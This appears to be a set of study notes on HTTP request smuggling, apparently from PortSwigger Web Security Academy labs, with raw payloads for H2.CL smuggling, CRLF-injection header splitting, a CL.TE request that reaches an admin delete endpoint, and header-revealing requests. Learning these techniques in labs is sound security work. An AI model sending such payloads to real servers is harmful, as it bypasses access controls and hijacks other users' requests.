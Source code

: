 H2.CL

If the front-end server downgrades to HTTP/2 and the back-end server adopts Content-Length, the following can be used to return a response from the exploit server:

```
POST / HTTP/2
Host: target
Content-Length: 0

GET /something HTTP/1.1
Host: target
Content-Length: 5

x=1
```

HTTP/2 request smuggling via CRLF injection

• `Foo: bar\r\nTransfer-Encoding: chunked`

HTTP/2 request splitting via CRLF injection

• `Foo: bar\r\nGET /admin HTTP/1.1\r\nHost: target`

Misc:

- Avoid running scanners or extensions in the background.
    - Differences in responses depending on the order of requests cannot be confirmed.
- If there is a conflict between the header of the previous request and the current request, adjust the first request so that the inconvenient part for the second request comes in the body.

```
POST / HTTP/1.1
Host: 0ab2003503431d4fc0f0c440005c0002.web-security-academy.net
Cookie: session=eYLQ3aI12p8Lsr6Tma2qj9xTrJysvxXM
Content-Length: 139
Transfer-Encoding: chunked

0

GET /admin/delete?username=carlos HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 10

x=
```

To identify headers added by the front-end server when forwarding a request to a back-end server for a POST endpoint where part of the request is reflected in the response, the following can be done while adjusting the second Content-Length to obtain the desired information.

```
Transfer-Encoding: chunked
Content-Length: 246

0

POST / HTTP/1.1
Host: 0afb00df04e0e634c0659e2400310083.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 300

search=POST / HTTP/1.1
Host: 0afb00df04e0e634c0659e2400310083.web-security-academy.net
```

